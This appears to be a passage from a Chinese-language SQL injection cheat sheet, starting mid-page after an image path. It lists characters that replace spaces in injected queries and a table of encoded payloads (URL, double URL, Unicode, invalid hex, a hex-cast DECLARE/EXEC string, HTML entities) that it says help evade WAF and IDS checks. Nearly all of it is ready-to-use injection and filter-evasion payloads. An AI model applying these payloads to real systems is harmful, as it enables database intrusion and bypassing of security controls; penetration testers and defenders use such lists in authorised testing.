 AND/OR可以使用中间符号:

```
01 - 20 范围
21  !
2B  +
2D  -
2E  .
5C  \
7E  ~

```

示例：

```
SELECT 1FROM[table]WHERE\1=\1AND\1=\1;

```

附： 反斜杠似乎不适用于MSSQL 2000中.

### 编码

编码注射语句，有利于躲避WAF / IDS检查。

<table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">URL编码(URL Encoding)</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">SELECT %74able_%6eame FROM information_schema.tables;</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">双重URL编码(Double URL Encoding)</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">SELECT %2574able_%256eame FROM information_schema.tables;</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">Unicode编码(Unicode Encoding)</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">SELECT %u0074able_%u6eame FROM information_schema.tables;</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">无效的十六进制编码(Invalid Hex Encoding (ASP)</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">SELECT %tab%le_%na%me FROM information_schema.tables;</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">十六进制编码(Hex Encoding)</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x53454c4543542031 AS VARCHAR(4000)); EXEC (@S);--</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">HTML实体(HTML Entities 待验证）</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">%26%2365%3B%26%2378%3B%26%2368%3B%26%2332%3B%26%2349%3B%26%2361%3B%26%2349%3B</td></tr></tbody></table>
